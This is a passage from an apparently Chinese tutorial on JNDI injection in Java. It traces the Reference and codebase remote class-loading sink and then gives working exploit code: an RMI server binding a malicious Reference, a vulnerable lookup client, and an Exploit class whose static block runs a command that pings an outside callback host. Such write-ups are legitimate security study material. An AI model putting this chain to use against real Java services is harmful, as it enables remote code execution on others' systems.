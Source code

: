 便捷的同时也带来了问题，进入 decodeObject 方法，跟进 getObjectInstance 方法，再跟进`getObjectFactoryFromReference(ref, f);`这行代码，如下-->

![alt text](image-374.png)

其中使用 codebase 进行远程类加载，显然是存在风险的，而这就是 JNDI 注入的 Sink，也不用分析代码如何才能走到这一步，在 RMI 的注册中心中绑定一个合适的 Reference 对象，顺理成章的便可到达 Sink。何为合适？即选择合适的 Reference 构造函数，构造函数中要构造 classFactory 以及 classFactoryLocation，第三个、第四个均可以，如下-->

![alt text](image-375.png)

### 注入

选取 Reference 类的第三个构造函数，编写利用代码如下：

RMIServer-->

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference(null,"Exploit","http://127.0.0.1:8000/");
        // 需要用 ReferenceWrapper 将 reference 包装
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("referenceWrapper",referenceWrapper);
    }
}
```

JNDIRMIClient-->

```java
import javax.naming.InitialContext;

public class JNDIRMIClient
{
    public static void main( String[] args ) throws Exception
    {
        String uri = "rmi://localhost:1099/referenceWrapper";
        InitialContext initialContext = new InitialContext();
        IRemoteObject remoteObject = (IRemoteObject) initialContext.lookup(uri);
    }
}
```

编译恶意类如下-->

```java
public class Exploit{
    static {
        try {
            java.lang.Runtime.getRuntime().exec("ping 6y7d5.cxsys.spacestabs.top");
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```
